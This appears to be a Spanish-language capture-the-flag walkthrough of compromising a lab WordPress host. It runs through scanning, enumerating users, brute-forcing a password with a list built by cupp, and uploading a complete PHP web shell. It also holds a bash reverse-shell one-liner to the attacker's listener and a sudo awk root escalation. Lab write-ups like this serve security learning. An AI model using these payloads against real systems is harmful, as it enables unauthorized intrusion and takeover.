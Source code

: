 Fecha: 03/09/2024

Comienzo con un nmap. Hay un ssh en el 22 y un Apache en el 80, ninguno de ellos vulnerable.

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.3 -oN scan
```  

![](Imágenes/Pasted%20image%2020240903194243.png)

Inspecciono la página y en el apartado de profesores encuentro lo siguiente:
![](Imágenes/Pasted%20image%2020240903195625.png)


Hago fuzzing:
```
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.3/FUZZ  -e .php,.html,.txt,.js -o fuzzing 
```

Encuentro varios directorios: 
![](Imágenes/Pasted%20image%2020240903194348.png)

Busco más en detalle en /wordpress:
```bash
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.3/wordpress/FUZZ  -e .php,.html,.txt,.js -o fuzzing 
```

![](Imágenes/Pasted%20image%2020240903194541.png)

Utilizo wpscan para encontrar más detalles, e intentar enumerar usuarios: 
```
wpscan --url http://172.17.0.3/wordpress -e u
```

![](Imágenes/Pasted%20image%2020240903194841.png)

Encuentro que se puede listar el directorio uploads y que hay un usuario: luisillo. Buscaré la contraseña del mismo:
```bash
wpscan --url http://172.17.0.3/wordpress -U luisillo -P /usr/share/wordlists/rockyou.txt 
```

No encuentra nada, así que leo que hay una herramienta, cupp, que permite crear diccionarios a partir de datos que le demos. Voy a probar a usar los datos de "Luis" que encontré al principio. Relleno con los datos y pruebo de nuevo.

```bash
cupp -i
```

![](Imágenes/Pasted%20image%2020240903195846.png)
```
wpscan --url http://172.17.0.3/wordpress -U luisillo -P  luis.txt
```

![](Imágenes/Pasted%20image%2020240903195937.png)

Tuve que añadir a mi fichero hosts la siguiente linea para que me funcionara, pero inicio sesión con esas credenciales.
![](Imágenes/Pasted%20image%2020240903200156.png)

Como sé que /wp-content/uploads muestra los ficheros, subiré una command line para hacerme un reverse shell: 

```php
SHELL:  
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

![](Imágenes/Pasted%20image%2020240903200514.png)

![](Imágenes/Pasted%20image%2020240903200615.png)

```bash
# En la shell virtual:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# En mi máquina atacante:
nc -lvnp 9001
```

Lo primero, trato la tty:
```shell
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

Una vez dentro, intento hacer `sudo -l` pero pide contraseña, así que exploro:
![](Imágenes/Pasted%20image%2020240903200810.png)

Como luisillo, puedo usar `awk` como su, lo cual aprovecho: https://gtfobins.github.io/gtfobins/awk/#sudo
```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```

![](Imágenes/Pasted%20image%2020240903200940.png)
